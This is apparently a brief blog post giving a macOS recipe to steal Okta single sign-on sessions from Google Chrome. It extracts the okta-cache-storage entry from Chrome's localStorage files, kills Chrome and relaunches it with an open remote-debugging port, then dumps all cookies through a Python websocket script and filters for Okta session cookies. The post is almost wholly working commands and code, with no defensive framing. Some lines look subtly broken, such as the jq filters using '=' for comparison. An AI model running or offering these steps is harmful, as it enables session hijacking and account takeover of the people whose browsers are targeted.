 ```yaml
---
layout: post
title:  "Dumping Okta Sessions in Chrome"
date:   2024-11-17 03:00:00 -0600
categories: 
---
```


# Local Storage

Google Chrome (macOS) localStorage is saved on the filesystem in the leveldb file: `/Users/<user>/Library/Application Support/Google/Chrome/Default/Local Storage/leveldb`.

To dump localStorage:
* `git clone https://github.com/rdreher/chromeStorageDump.git`
* `npm install levelup leveldown`
* Avoid a file lock, by first copying leveldb to /tmp
* `cp -R "/Users/<user>/Library/Application Support/Google/Chrome/Default/Local Storage/leveldb" "/tmp/leveldb"`
* `node chromeStorageDump.js -k okta-cache-storage "/tmp/leveldb"`

# Cookies

Google Chrome (macOS) cookies are stored in an encrypted SQLite database with the key saved in the keychain. Unencrypted cookies can still be fetched by attaching a remote chrome debugger. This technique requires existing Chrome browsers to be restarted with the `--remote-debugging-port` flag. 

* `killall Google\ Chrome`
* `/Applications/Google\ Chrome.app/Contents/MacOS/Google\ Chrome --remote-allow-origins="*" --remote-debugging-port=9222 --user-data-dir="/Users/<user>/Library/Application Support/Google/Chrome" --restore-last-session --profile-directory=Default`

The following `/json` endpoint provides a list of websocket addresses. 
* `curl http://localhost:9222/json`

Using a websocket client, connect using the correct page id to dump the unencrypted cookie in JSON format.

* `pip3 install websocket`
* `pip3 install websocket-client`

#### **`ripWCMN.py`**
```python
import websocket
ws = websocket.WebSocket()
ws.connect("ws://localhost:9222/devtools/page/<id>", suppress_origin=True)
ws.send('{\"id\": 1, \"method\": \"Network.getAllCookies\"}')
print(ws.recv())
```
* `python3 rip ripWCMN.py  | jq -r '.[] | select(.url="https://<subdomain>.okta.com/app/UserHome")'`
* `python3 rip ripWCMN.py  | jq -c '.result.cookies[] | select(.name="idx")'`

Credit: Justin Bui and @mangopdf

### References:
* https://www.cyberark.com/resources/threat-research-blog/the-current-state-of-browser-cookies
* https://gist.github.com/creachadair/937179894a24571ce9860e2475a2d2ec
* https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f
* https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e